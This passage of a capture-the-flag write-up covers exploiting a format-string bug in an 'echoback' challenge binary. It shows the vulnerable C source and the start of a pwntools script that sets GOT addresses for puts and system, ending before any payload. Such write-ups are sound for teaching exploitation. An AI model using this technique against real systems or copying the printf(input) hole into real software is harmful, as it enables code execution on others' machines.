 And also the exploit works remotely:

![./got_flag.png](./got_flag.png)

Here's the C code that the authors graciously left on the server.

```C
#include <stdio.h>
#include <sys/types.h>

void vuln(){
    char input[128] = {};

    system("echo input your message:");
    read(0,input,127);

    printf(input);
    puts("\n");

    puts("Thanks for sending the message!");
}

int main(int argc, char *argv[]){
  setvbuf(stdout, NULL, _ IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

And here's the exploit code:

```python
### exploit-echoback.py
### by Sudoite

from pwn import *

local = False
debug = False

PUTS_GOT_ADDR = 0x0804a01c
SYSTEM_GOT_ADDR = 0x0804a020
BINSH_ADDR = 0x0804a048
SYSTEM_CALL_ADDR = 0x080485DC
```